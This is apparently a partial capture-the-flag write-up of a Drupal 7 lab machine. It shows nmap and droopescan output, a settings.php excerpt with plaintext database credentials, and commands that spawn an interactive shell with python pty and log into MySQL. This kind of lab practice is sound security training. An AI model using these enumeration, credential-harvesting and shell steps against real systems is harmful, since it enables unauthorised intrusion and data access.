 # Nmap Scan
```
nmap -sCV -p- -Pn 192.168.56.193 --open
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-14 11:46 EDT
Nmap scan report for 192.168.56.193
Host is up (0.00077s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 c4:d6:59:e6:77:4c:22:7a:96:16:60:67:8b:42:48:8f (DSA)
|   2048 11:82:fe:53:4e:dc:5b:32:7f:44:64:82:75:7d:d0:a0 (RSA)
|_  256 3d:aa:98:5c:87:af:ea:84:b8:23:68:8d:b9:05:5f:d8 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Debian))
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.2.22 (Debian)
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to Drupal Site | Drupal Site
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          35685/udp6  status
|   100024  1          40238/tcp   status
|   100024  1          56691/udp   status
|_  100024  1          58362/tcp6  status
40238/tcp open  status  1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.33 seconds

```

- Accessing the web page gives the details on Drupal - a free and open-source web content management system written in PHP

- For scanning the Drupal websites (Plugin based scanner) found called Droopescan

# Droopescan - Drupal website

```
 droopescan scan drupal -u http://192.168.240.193/ -t 32

[+] Plugins found:
    ctools http://192.168.240.193/sites/all/modules/ctools/
        http://192.168.240.193/sites/all/modules/ctools/LICENSE.txt
        http://192.168.240.193/sites/all/modules/ctools/API.txt
    views http://192.168.240.193/sites/all/modules/views/
        http://192.168.240.193/sites/all/modules/views/README.txt
        http://192.168.240.193/sites/all/modules/views/LICENSE.txt
    profile http://192.168.240.193/modules/profile/
    php http://192.168.240.193/modules/php/
    image http://192.168.240.193/modules/image/

[+] Themes found:
    seven http://192.168.240.193/themes/seven/
    garland http://192.168.240.193/themes/garland/

[+] Possible version(s):
    7.22
    7.23
    7.24
    7.25
    7.26

[+] Possible interesting urls found:
    Default admin - http://192.168.240.193/user/login
```

#Finding Creds for Mysql

- flag1 leads to coonfig file and also checked the flag4 in /etc/passwd it leads to root flag in root directory.

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/6c9d2e75-2985-4858-8691-a3facec85183)

```
/**
 *
 * flag2
 * Brute force and dictionary attacks aren't the
 * only ways to gain access (and you WILL need access).
 * What can you do with these credentials?
 *
 */

$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupaldb',
      'username' => 'dbuser',
      'password' => 'R0ck3t',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);

/**

```
using these commands we can enter into interactive shell and able to access the my sql DB:
```
python -c 'import pty; pty.spawn("/bin/sh")'

mysql -u dbuser -p

use drupaldb;

show tables;
```
